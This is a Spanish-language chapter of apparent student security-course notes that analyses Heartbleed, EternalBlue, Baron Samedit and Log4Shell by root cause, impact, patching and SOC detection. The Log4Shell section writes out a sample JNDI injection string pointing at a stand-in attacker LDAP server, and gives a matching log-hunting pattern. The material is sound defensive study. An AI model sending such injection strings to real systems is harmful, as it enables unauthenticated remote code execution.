

# 5. Casos reales (CVE) investigados

La tarea pide vulnerabilidades reales que haya investigado. Todavía estoy
empezando, así que la forma honesta de hacerlo es estudiar CVE públicas a partir
de fuentes primarias —NVD, avisos del fabricante, write-ups publicados—
aplicando el mismo patrón de análisis del capítulo 1 y sacando de cada una lo que
se puede trasladar a otras.

Aquí analizo causa raíz, impacto y mitigación con información pública. No incluyo
exploits funcionales ni los ejecuto contra nada de terceros. El valor está en el
análisis, no en el arma.

Elegí cuatro casos de cuatro familias distintas, para ver cómo se adapta el mismo
método a cada tipo:

| CVE | Nombre | Familia | CWE | Impacto |
|-----|--------|---------|-----|---------|
| CVE-2014-0160 | Heartbleed | Out-of-bounds read | CWE-125 | Fuga de memoria (claves, datos) |
| CVE-2017-0144 | EternalBlue | Buffer overflow (kernel) | CWE-787 | RCE remoto (SMBv1) |
| CVE-2021-3156 | Baron Samedit | Heap buffer overflow | CWE-122/193 | Escalada local a root |
| CVE-2021-44228 | Log4Shell | Inyección (JNDI/EL) | CWE-917/502 | RCE remoto sin autenticar |

## 5.1. CVE-2014-0160 — Heartbleed (OpenSSL)

Una lectura fuera de límites, no una corrupción. Está en la extensión Heartbeat
(RFC 6520) de OpenSSL/TLS, y afectó a una parte enorme de Internet.

La causa: el servidor se fía de un campo de longitud que manda el cliente sin
comprobar que coincide con los datos que realmente ha recibido. El cliente dice
"te mando 1 byte, pero devuélveme 65.535", y el servidor responde copiando desde
su propia memoria hasta 64 KB más allá del búfer legítimo. Faltaba un
`payload_length <= tamaño_real`: un bounds check que no estaba. El resultado es
una fuga de memoria del proceso —claves privadas, cookies de sesión,
credenciales—. El parche valida la longitud; a nivel defensivo, tocó rotar claves
y certificados.

Lo que me llevo: toda longitud que venga de fuera es hostil hasta que se valida
contra el tamaño real. Desde el lado SOC, se caza con firmas IDS/IPS de heartbeat
malformado y vigilando un volumen anómalo de respuestas Heartbeat.

[NVD CVE-2014-0160](https://nvd.nist.gov/vuln/detail/CVE-2014-0160) · [heartbleed.com](https://heartbleed.com/)

## 5.2. CVE-2017-0144 — EternalBlue (SMBv1)

Desbordamiento de búfer en el kernel (`srv.sys`), explotable en remoto. Está en el
protocolo SMBv1 de Windows, y fue la base de WannaCry y NotPetya en 2017. El
propio manual usa SMBv1/WannaCry como ejemplo de por qué hay que deshabilitar
protocolos heredados.

La causa es un error al convertir entre estructuras de listas de atributos (FEA
list): un cálculo de tamaño incorrecto al pasar de formato OS/2 a NT hace que se
copie más de lo reservado, y eso corrompe memoria de kernel de forma controlable.
Un math bug combinado con un protocolo expuesto en red y ejecutado en el máximo
privilegio. El impacto: ejecución remota de código como SYSTEM, con propagación
tipo gusano. Se cerró con MS17-010, deshabilitando SMBv1, segmentando y filtrando
el puerto 445.

Lo que me llevo: un error aritmético de tamaño es tan peligroso como un `strcpy`,
y en kernel el impacto se multiplica. En SOC: firmas de red del patrón de
EternalBlue, tráfico SMBv1 en la red interna y conexiones 445 anómalas
este-oeste.

[NVD CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144) · [MS17-010](https://learn.microsoft.com/security-updates/securitybulletins/2017/ms17-010)

## 5.3. CVE-2021-3156 — Baron Samedit (sudo)

Desbordamiento de heap que permite escalada local. En `sudo`, que está en
prácticamente todo Unix/Linux. La descubrió Qualys.

La causa: al procesar la línea de comandos en shell mode, un argumento acabado en
barra invertida (`\`) provoca un fallo en el unescaping y se lee y escribe fuera
de los límites de un búfer del heap —un off-by-one que degenera en overflow
controlable—. Con un parsing frágil y control del atacante sobre el contenido, se
podían corromper estructuras del heap y, con trabajo, escalar a root. Impacto:
cualquier usuario local sin privilegios pasa a root. Se arregla actualizando sudo,
y detrás está el principio de mínimo privilegio y revisar los parsers.

Lo que me llevo: el manejo de caracteres de escape y los off-by-one son una mina
clásica, y el heap es tan explotable como la pila, con otras técnicas. En SOC:
auditar ejecuciones de `sudo` con argumentos raros y vigilar con EDR spawns de
root inesperados.

[NVD CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) · [Qualys advisory](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt)

## 5.4. CVE-2021-44228 — Log4Shell (Apache Log4j 2)

Una inyección (JNDI / expression language) que acaba en RCE. No es un fallo de
memoria, y lo incluyo justo por eso: la metodología no va solo de binary
exploitation. Está en una librería de logging que estaba por todas partes en el
mundo Java, y su impacto en diciembre de 2021 fue global.

La causa: Log4j interpreta secuencias `${...}` dentro de los mensajes que
registra. Si se loguea una cadena controlada por el atacante como
`${jndi:ldap://servidor-atacante/a}`, la librería hace una consulta JNDI a ese
servidor y llega a cargar y ejecutar una clase remota. Una entrada no confiable
—una cabecera HTTP, un nombre de usuario, cualquier dato que se loguee— tratada
como código. Confusión entre datos y código, de libro. El impacto: RCE remoto,
sin autenticación, trivial de disparar. Se mitiga actualizando Log4j,
desactivando los lookups JNDI y filtrando el tráfico de salida.

Lo que me llevo: nunca interpretes datos del usuario como instrucciones; la
frontera entre datos y código no se cruza. Es el mismo principio de las
inyecciones SQL o de comandos. En SOC: buscar `${jndi:` en logs y peticiones, y
conexiones LDAP/RMI salientes hacia destinos desconocidos.

[NVD CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## 5.5. El binario con el que he practicado

Aparte de estas CVE públicas, el binario del capítulo 4 (`vuln_linux`) es con el
que he practicado de primera mano las técnicas: fuzzing, cálculo de offset,
control de EIP y redirección de flujo. Lo escribí y compilé yo, con su laboratorio
reproducible en [`../labs/`](../labs/). Según avance en el máster, la idea es
ampliar esta sección con retos de HTB, TryHackMe, PortSwigger y binarios de
pwnable.kr o Exploit-DB, documentando cada uno con el mismo patrón.

## 5.6. Qué tienen en común los cuatro

Cuatro vulnerabilidades muy distintas —lectura OOB, overflow de kernel, overflow
de heap, inyección— con la misma raíz: una entrada controlada que cruza una
validación que falta o se queda corta. Interiorizar ese patrón me vale más que
memorizar cualquier exploit concreto, porque es lo que me va a dejar reconocer el
próximo fallo, incluido uno que nadie ha visto todavía. De ahí paso al capítulo
de 0days.
